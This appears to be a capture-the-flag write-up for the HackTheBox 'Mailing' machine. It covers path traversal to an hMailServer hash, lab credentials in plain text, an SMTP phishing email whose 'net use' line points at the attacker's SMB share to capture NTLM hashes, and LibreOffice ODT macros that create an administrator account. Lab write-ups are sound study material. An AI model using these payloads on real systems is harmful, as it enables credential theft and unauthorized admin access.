





Shell as maya
We have path traversal with the php download function

Admin password found here. Doing some research we can see this is the default directory containing the md5 hash.
I found it on this page
https://www.hmailserver.com/forum/viewtopic.php?t=31490

Password cracks to
homenetworkingadministrator
The 3 users found dont seem to work Ruy,Maya,Gregory
Considering the password im going to assume its Ruy the IT guy but I created a wordlist with all usernames and got no hits.
SMTP/Phishing
I sent this command fully expecting it to not work as I had tried a bunch of different payloads from john hammond, 0xdf and other public payloads. I expected this not to work so much I didnt even check to see if it worked. 30 minutes later looking in the history of my command line I saw maya actually authenticated to my SMB server.
Connect to telnet port 25 and send a phishing email
HELO mailing.htbMAIL FROM:<your_email@example.com>RCPT TO:<localadmin@mailing.htb>DATASubject: net use \\10.10.14.2\share
net use \\10.10.14.2\share.


Hash cracks to m4y4ngs4ri
We can remote in and get the user flag.
evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri
Privilege escalation to localadmin
The priv esc on this machine was really really cool. Theres a script opening all ODT files with libreoffice as localadmin located in C:\Important Documents\. We can create a malicious ODT file within libreoffice on our windows VM and create a user and add it to the admin group.
This guide explains how to create the macro
My macro file looked like this. It worked and added the user but he was in no groups. I realized the groups on this machine were in spanish so I created another ODT file adding our user to the admin group in spanish.
Sub Main
Shell("cmd /c powershell.exe New-LocalUser -AccountNeverExpires:$true -Password (ConvertTo-SecureString -AsPlainText -Force 'fsociety1') -Name 'fsociety1' | Add-LocalGroupMember -Group 'administrators'")End Sub
Second script with administrators in spanish.
Sub Main Shell("cmd /c powershell.exe Add-LocalGroupMember -Group 'Administradores' -Member 'fsociety1'")End Sub
